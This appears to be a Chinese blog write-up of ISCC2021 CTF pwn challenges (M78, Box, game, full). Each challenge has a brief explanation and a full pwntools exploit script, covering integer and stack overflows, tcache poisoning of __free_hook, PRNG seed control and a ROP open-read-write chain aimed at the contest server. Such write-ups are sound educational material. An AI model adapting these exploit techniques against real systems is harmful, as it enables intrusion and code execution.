 ```yaml
---
title:  ISCC2021 PWN部分 WP
categories: [CTF]
tags: [wp,pwn]

---
```

今年终于有机会去体验iscc了，也感受到了什么是pycc的力量了。（人均全栈，233雾）<!--more-->

## M78

经典的整数溢出与栈溢出.利用262来整数逃过判断,扩大栈上写入字节造成栈溢出.

```python
from pwn import *

e=ELF('./M78')

p=remote('39.96.88.40',7010)
p.sendline('1\x00')
p.recvuntil('Please choose a building')


p.recvuntil('Please input the password')

shell='a'*(0x18+4)+p32(e.symbols['call_main'])

p.sendline(shell+'a'*(262-len(shell)))
#gdb.attach(p)
p.interactive()
```



## Box

old-2.27版的堆题,限制了最多申请6个同种堆块,通过连续二次释放0x90大小的堆块.获得chunk地址.更改tcache 管理结构体,伪造其填满.再释放0x90大小的堆块获得libc基地址.再在`__free_hook`上写入system 从而getshel。l

```python
from pwn import *

e=ELF('./pwn')
l=ELF('./libc.so.6')
#l=ELF('/glibc/2.27/amd64/lib/libc.so.6')
#p=process('./pwn')
p=remote('39.96.88.40',7020)

def add(num,size,text):
	#p.recvuntil('>> ')
	p.sendline('1')
	p.recvuntil('Input the index:')
	p.sendline(str(num))
	p.recvuntil('Input the size:')
	p.sendline(str(size))
	p.recvuntil('Input data:')
	p.sendline(text)
def edit(num,text):
	p.send('2')
	p.recvuntil('Input the index:')
	p.sendline(str(num))
	p.recvuntil('Please input the data:')
	p.send(text)
	
def free(num):
	p.sendline('3')
	p.recvuntil('Input the index:')
	p.sendline(str(num))

def show(num):
	p.sendline('4')
	p.recvuntil('Input the index:')
	p.sendline(str(num))
	p.recvuntil('Here is it :')


add(1,0x90,'111')
add(2,0x90,'111')
add(0,0x90,'/bin/sh\x00')
sleep(0.1)
free(1)
sleep(0.1)
free(2)
sleep(0.1)
show(2)

chunk_addr=u64(p.recv(6).ljust(8,'\x00'))
log.info('chunk_addr:'+hex(chunk_addr))
tache_addr=chunk_addr-0x260
log.info('tache_addr:'+hex(tache_addr))
edit(2,p64(tache_addr+0x10))

#add(2,0x40,p8(7)*0x10)
add(3,0x90,p8(7)*0x10)
sleep(0.1)
add(4,0x90,p8(6)*0x40)
#gdb.attach(p)
sleep(0.1)
free(0)
sleep(0.1)
free(3)
sleep(0.1)
show(3)
main_arena_addr=u64(p.recv(6).ljust(8,'\x00'))-96
log.info('main_arena_addr:'+hex(main_arena_addr))
base=main_arena_addr-0x3afc40
log.info('blic_base_addr:'+hex(base))
sleep(0.1)
edit(4,p8(6)*0x40+p64(base+l.symbols['__free_hook'])+p64(base+l.symbols['__free_hook']))
sleep(0.1)
add(5,0x20,p64(base+l.symbols['system']))
#p.interactive()
edit(4,'/bin/sh\x00')
free(4)



p.interactive()
```

## game

经典的伪随机数问题，通过`from ctypes import *`的`CDLL`本地模拟随机数生成，同时利用栈溢出控制伪随机数种子。从而控制随机数产生。

```python
from pwn import *
from ctypes import *
e=ELF('./game')
context.log_level = 'debug'
p=remote('39.96.88.40',7040)
#process('./game')
c = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
c.srand(1) 
pay='a'*(0x24)+p32(2)+p32(1)

p.send(pay)

#gdb.attach(p)

for i in range(10):
    #p.recvuntil('point(1~6):')
	x=c.rand()
	#print(x)
	c.srand(x)
	l=c.rand()%0x64+1 
	print(l)
	#p.interactive()
	p.sendline(str(l))
	#print(l)
	print(p.recv())
p.interactive()
```

## full

由于没有打印信息的函数,且程序PIE是关闭的,通常就会想到ret2dl_resolve。但是做了半天发现不行，看了下保护：

```python
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

发现 `Full RELRO`开着，wro......

但是查阅资料发现[神奇的gadget](https://gdufs-king.github.io/2020/01/03/%E7%A5%9E%E5%A5%87%E7%9A%84gadget/)一文提供了，将真实地址转移到栈上修改的思路。虽然题目中没有这个gadget但是提供了memcpy 函数。

有根据在大多数libc中read与write的symbols只一个字节不同的特性，同过将read打印到栈上修改成write从而泄露libc。

然后不知道为啥system无法执行（菜鸡推测是栈上问题），于是用orw（open-read-write）方法强行读取flag文件

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.arch='i386'

elf=ELF('./full')

#p=remote('39.96.88.40',7050)
p=process('./full')
pppr_addr      = 0x08048519     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804851b     # pop ebp ; ret
leave_ret_addr = 0x080483c5     # leave ; ret



pay1='12cdefghijklmn'+p32(0x0804A040+0x10+0x8)+p8(1)*2
pay1+=p32(elf.symbols['read'])+p32(pppr_addr)+p32(0)+p32(0x804a240)+p32(0x100)
pay1+=p32(elf.symbols["memcpy"])+p32(pppr_addr)+p32(0x804a260)+p32(0x8049ff0)+p32(4)
#栈转移

pay1+=p32(elf.symbols['read'])+p32(pppr_addr)+p32(0)+p32(0x804a260)+p32(0x1)
pay1+=p32(0x08048518)+p32(0x804a260)+p32(0x41)+p32(0x40)+p32(0x804a260)+p32(0x08048504)+p32(1)+p32(0x804a260)+p32(8)+'1111'*4+'2222'*4
pay1+=p32(elf.symbols['read'])+p32(pppr_addr)+p32(0)+p32(168+0x0804A040)+p32(0x100)
print(len(pay1))#布局gadget，ret2csu调用write打印真实地址

p.sendline(pay1)
sleep(1)
p.sendline('/flag.txt\x00\x00')
sleep(1)
#gdb.attach(p)
p.send(p8(0xb0))# yuancheng  #经过爆破发现将read真实地址改为0xb0恰好是write

#p.send(p8(0x90)) #本地



write=u32(p.recv(4))
print(hex(write))
libc = LibcSearcher('write', write)
libcbase = write - libc.dump('write')
log.info('base:'+hex(libcbase))

system=libcbase+libc.dump('system')
read_0=libcbase+libc.dump('open')
write_0=libcbase+libc.dump('write')
log.info('libcbase+system:'+hex(system))
binsh_addr = libcbase + libc.dump('str_bin_sh')
#gdb.attach(p)
p.sendline(p32(read_0)+p32(pppr_addr)+p32(0x804a240)+p32(0)+p32(0)+p32(elf.symbols['read'])+p32(pppr_addr)+p32(3)+p32(0x804a440+4)+p32(0x100)+p32(write_0)+'xxxx'+p32(1)+p32(0x804a440+4)+p32(0x100))#orw操作
#p.sendline()
#gdb.attach(p)
#p.sendline(p32(elf.symbols['read'])+'aaaa'+p32(0)+p32(0x804a240)+p32(0x100))
p.interactive()
```

